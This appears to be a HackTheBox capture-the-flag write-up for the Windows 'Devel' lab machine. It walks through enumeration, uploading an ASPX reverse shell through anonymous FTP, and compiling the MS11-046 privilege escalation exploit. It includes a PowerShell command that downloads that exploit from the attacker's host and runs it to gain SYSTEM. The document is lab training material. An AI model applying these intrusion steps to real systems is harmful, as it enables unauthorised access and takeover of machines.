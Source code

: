 ```yaml
---
weight: 1
title: "HackTheBox - Devel Writeup"
date: 2021-08-27
draft: false
author: "SH∆FIQ ∆IM∆N"
authorLink: "https://shafiqaiman.com"
description: "HacktheBox - Devel Writeup"
images: []
resources:
- name: "featured-image"
  src: "featured.png"

tags: ["aspx-reverse-shell", "CVE-2011-1249", "MS11-046"]
categories: ["HacktheBox","Windows"]

lightgallery: true
toc:
  auto: false
---
```


Box author | {{< person url="https://app.hackthebox.com/users/1" name="ch4p" picture="https://www.hackthebox.com/storage/avatars/08c255a334e10b3033ab7263e6b32422.png" >}}

<!--more-->

## Enumeration

- scan top 1000 ports

```bash
nmap -sC -sV -oN nmap/initial 10.10.10.5
```

- the result

![nmap initial scan](1000.png "nmap initial scan")

- all ports scan

```bash
nmap -sC -sV -p- -oN nmap/all_ports 10.10.10.5
```

- the result

![nmap allports scan](all_ports.png "nmap allports scan")

### Open Ports
- We all know both Nmap scan shows us, just 2 open ports
- 21/FTP = Microsoft ftpd
- 80/HTTP = Microsoft IIS httpd 7.5

### FTP
- File Transfer Protocol [FTP] on this machine is open and allowed login as anonymous
- Let's connect to it

![ftp anonymous](ftp.png "ftp anonymous")

- Well, I can't find anything on it
- So, I'm thinking this FTP might have been connected to the other port [port 80].

### WebPage
- As we saw the image above. It has a `welcome.png` image.
- Let's put that on the `URL`

![default IIS webpage](welcome.png "default IIS webpage")

- COOL!

## Foothold/Gaining Access

### ASPX Reverse Shell
- Let's try to get the reverse shell 
- So, this is `Microsoft IIS` 
- with light googling. I've found the [aspx reverse shell](https://raw.githubusercontent.com/borjmz/aspx-reverse-shell/master/shell.aspx)
- Source
	- [Github - borjmz](https://raw.githubusercontent.com/borjmz/aspx-reverse-shell/master/shell.aspx)
<br>
- I'm gonna put the reverse shell on the FTP server
- Then, execute it with the `curl` command

![shell as iis apppool\web](got_shell.png "shell as iis apppool\web")

- I'm in as `iis apppool\web`

### systeminfo

- Let's enumerate this machine.
- First, I'm gonna run the `systeminfo` command
- the result

![systeminfo](systeminfo.png "systeminfo")

- OK! WOW!
- we're on Microsoft Windows 7 and it's a really old machine.
- Again. I'm gonna google around.

## Privilege Escalation

### MS11-046

![found an exploit](exploit-db.png "found an exploit")

- I've found this exploit
- Let's download it and compile the exploit <br>
-> don't worry, they got the compiling instructions

### Compiling Exploit
{{< admonition tip >}}
If you got this response after try to compiling `command not found: i686-w64-mingw32-gcc` <br>
Just run this command to install  it `apt install mingw-w64` 
{{< /admonition >}}

- This is the command for compiling
```bash
i686-w64-mingw32-gcc 40564.c -o MS11-046.exe -lws2_32
```
- After it is done, you got the binary in your directory called `MS11-046.exe`

### Transfer the Exploit
- Turns out, this machine has `PowerShell`
- I'm gonna host my file with a python webserver

```python
python3 -m http.server
```
- Let's transfer the exploit using PowerShell with this command.
- Source <br>
	-> [Jourdant - 3 ways to download files with PowerShell](https://blog.jourdant.me/post/3-ways-to-download-files-with-powershell)

```powershell
powershell.exe -c "(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.15:8000/MS11-046.exe', 'c:\users\public\documents\lol.exe')"
```
- Then, execute it.

![become nt authority\system](exe.png "become nt authority\system")

- YES! I'm become `SYSTEM`

## User Flag

![user flag](user.png "user flag")

## Administrator Flag

![root flag](admin.png "root flag")

## Conclusion
I've learned a lot today. If you using File Transfer Protocol [FTP] make sure to configure it properly and avoid using anonymous access. Lastly, just update the system or even better use the new and up-to-date version of windows.

I have a fun time doing this machine and I hope you guys do too. Bye ;)